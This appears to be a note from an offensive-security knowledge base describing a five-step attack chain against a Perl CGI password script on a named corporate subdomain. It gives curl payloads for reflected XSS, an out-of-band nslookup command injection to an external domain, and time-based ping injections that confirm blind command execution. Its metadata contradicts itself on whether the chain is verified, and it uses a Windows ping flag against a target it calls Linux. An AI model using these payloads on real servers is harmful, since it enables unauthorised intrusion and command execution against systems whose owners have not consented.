

---
tags:
  - xss
  - command-injection
  - rce
  - oob
  - blind
  - cgi
  - perl
type: attack_chain
tools:
  - '[[tools/Netsparker]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
  - Linux
submitted: true
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Identify-Vulnerable-CGI-Endpoint]]'
  - '[[procedures/Test-Email-Parameter-for-Reflected-XSS]]'
  - '[[procedures/Verify-XSS-Across-Browsers]]'
  - '[[procedures/Test-for-Blind-OS-Command-Injection]]'
  - '[[procedures/Confirm-Command-Injection-with-Time-Delays]]'
step_count: 5
techniques:
  - '[[JavaScript]]'
  - '[[Unix Shell]]'
  - '[[Drive-by Compromise]]'
updated_at: '2025-12-13T23:52:39.005Z'
description: >-
  Multi-stage attack exploiting reflected XSS and blind out-of-band OS command
  injection in the email parameter of a Perl CGI script to achieve JavaScript
  execution and server-side command execution.
id: f7c6f811-1f91-4f81-8be0-58d2063f7297
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[JavaScript]]'
  - '[[Unix Shell]]'
  - '[[Drive-by Compromise]]'
---
# Chained Reflected XSS and Blind OS Command Injection in CGI Script

Multi-stage attack chain demonstrating exploitation of improper input handling in a Perl CGI script for reflected XSS and blind OS command injection, leading to client-side JavaScript execution and server-side remote command execution via out-of-band channels.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Netsparker]]
- Web browser (Firefox, IE, Edge)
- curl or similar for POST requests

### Target Environment

- Web platform with Perl CGI scripts
- Exposed /cgi-bin/PasswordCreate.pl endpoint
- No authentication required for the vulnerable form

### Initial Access Requirements

- Network access to the target subdomain (e.g., dstuid-ww.dst.ibm.com)
- No credentials needed
- Ability to send GET/POST requests to the CGI script

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Endpoint
procedure: [[procedures/Identify-Vulnerable-CGI-Endpoint]]

**Objective**: Locate the CGI script handling password creation with vulnerable email parameters.

**Instructions**: Manually navigate to or use directory enumeration to find /cgi-bin/PasswordCreate.pl. Inspect the form for email input fields supporting GET and POST methods.

**Expected Output**: Confirmation of the endpoint responding to requests with email parameter processing.

**Success Indicators**:
- Endpoint returns a form or error without crashing
- Email parameter is reflected in responses

### Step 2: Test Email Parameter for Reflected XSS
procedure: [[procedures/Test-Email-Parameter-for-Reflected-XSS]]

**Objective**: Inject a crafted payload to trigger JavaScript execution via reflection.

**Instructions**: Send a GET request with a payload chaining shell metacharacters and JS: Use [[commands/test-xss-payload]] to inject '&nslookup "dqzr3elx6wgztgtzd3if-0oyyf_qzd2wodwlaljh"86m.r87.me"cier4<script>alert(1)</script>mikflzhwaep' in the email parameter.

```bash
curl "http://target/cgi-bin/PasswordCreate.pl?email=%26nslookup%20%22dqzr3elx6wgztgtzd3if-0oyyf_qzd2wodwlaljh%22%2286m.r87.me%22cier4%3cscript%3ealert(1)%3c%2fscript%3emikflzhwaep&ibm-submit=Submit"
```

**Expected Output**: Response reflects the payload, and alert(1) executes in the browser.

**Success Indicators**:
- JavaScript alert pops up
- Payload visible in HTML response

### Step 3: Verify XSS Across Browsers
procedure: [[procedures/Verify-XSS-Across-Browsers]]

**Objective**: Ensure the XSS is not browser-specific and works consistently.

**Instructions**: Replay the same GET payload from Step 2 in Firefox, Internet Explorer, and Microsoft Edge.

**Expected Output**: Alert box appears in each browser.

**Success Indicators**:
- Consistent execution across tested browsers
- No filtering or CSP blocking the payload

### Step 4: Test for Blind OS Command Injection
procedure: [[procedures/Test-for-Blind-OS-Command-Injection]]

**Objective**: Inject shell metacharacters to chain commands in the POST email parameter.

**Instructions**: Send a POST request with Content-Type: application/x-www-form-urlencoded and body including email=-------------------------&ibm-submit=Submit, then vary with ping injections using [[commands/ping-injection-10]] and [[commands/ping-injection-20]].

```bash
curl -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "email=-------------------------&ibm-submit=Submit" http://target/cgi-bin/PasswordCreate.pl
```

**Expected Output**: Server processes the request without errors, setting up for timing tests.

**Success Indicators**:
- Request accepted
- No immediate errors indicating sanitization

### Step 5: Confirm Command Injection with Time Delays
procedure: [[procedures/Confirm-Command-Injection-with-Time-Delays]]

**Objective**: Use time-based delays to infer blind command execution.

**Instructions**: Compare baseline response time with random email against injections using [[commands/ping-injection-10]] and [[commands/ping-injection-20]]. Measure delays of ~10s and ~20s.

```bash
# Baseline
time curl -X POST ... -d "email=random&ibm-submit=Submit" http://target/cgi-bin/PasswordCreate.pl

# Injected
time curl -X POST ... -d "email=;&ping -n 10 1.1.1.1&ibm-submit=Submit" http://target/cgi-bin/PasswordCreate.pl
```

**Expected Output**: Delayed responses confirming ping execution.

**Success Indicators**:
- 10s delay for -n 10
- 20s delay for -n 20

## Attack Chain Summary

### Key Achievements

1. Successful reflected XSS for arbitrary JS execution
2. Confirmed blind command injection via timing
3. Potential for session theft and RCE escalation

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Unix Shell]]
- [[Drive-by Compromise]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
